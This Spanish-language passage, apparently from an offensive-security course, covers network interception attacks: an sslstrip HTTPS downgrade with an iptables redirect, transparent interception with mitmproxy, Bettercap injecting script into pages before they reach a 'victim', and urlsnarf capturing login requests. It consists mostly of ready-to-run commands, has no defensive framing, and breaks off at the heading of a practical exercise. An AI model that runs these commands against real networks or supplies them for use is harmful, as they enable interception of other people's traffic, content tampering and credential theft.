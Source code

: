 
## 11.7. SSL Strip – Downgrade de HTTPS

Con `sslstrip`:

```bash
sudo apt install sslstrip
sudo sslstrip -l 8080
```

Redirigir tráfico con iptables:

```bash
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

---

## 11.8. Intercepción con mitmproxy

```bash
mitmproxy --mode transparent --listen-port 8080
```

Esto permite:

* Ver tráfico HTTP/HTTPS.
* Editar respuestas.
* Guardar sesiones para análisis.

---

## 11.9. Inyección de Scripts en Descargas

Con `Bettercap`:

```bash
set http.proxy.replace.body from="</body>" to="<script>alert('Interceptado');</script></body>"
```

Esto inserta código malicioso en cualquier página antes de enviarla a la víctima.

---

## 11.10. Captura de Credenciales

Con ARP Spoofing y `urlsnarf`:

```bash
sudo urlsnarf -i eth0
```

Esto muestra las peticiones HTTP que contienen datos de login.

---

## 11.11. Ejercicio Práctico Completo
